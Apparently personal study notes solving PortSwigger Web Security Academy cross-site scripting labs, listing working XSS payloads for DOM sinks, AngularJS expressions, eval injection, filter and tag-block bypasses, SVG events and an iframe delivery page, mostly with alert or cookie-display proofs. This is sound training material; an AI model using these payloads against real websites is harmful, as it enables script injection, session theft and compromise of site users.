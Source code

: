 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.

# Stored DOM XSS

> Function replaces first angle brakets only:

```js
 function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

```js
<><img src=1 onerror=alert(1)>
```

# Reflected XSS into HTML context with most tags and attributes blocked

"Tag is not allowed"

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Copy tags to clipboard

![[Pasted image 20240806115813.png]]

Status 200 --> body

"Attribute is not allowed"

Copy events to clipboard

![[Pasted image 20240806120249.png]]

```js
<body onresize="print()">
```

```js
<iframe src="https://0aff0012036c406f80a92664002500fa.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```


# Reflected XSS into HTML context with all tags blocked except custom ones

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

```
https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert(document.cookie)+tabindex%3D1%3E#x
```

```html
<script>
location = 'https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
</script>
```

# Reflected XSS with some SVG markup allowed

![[Pasted image 20240807114732.png]]

```js
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

# Reflected XSS in canonical link tag

```html
<link rel="canonical" href='https://0a27005e04da85618195de30000a0031.web-security-academy.net/?feq46jyh'/>
```



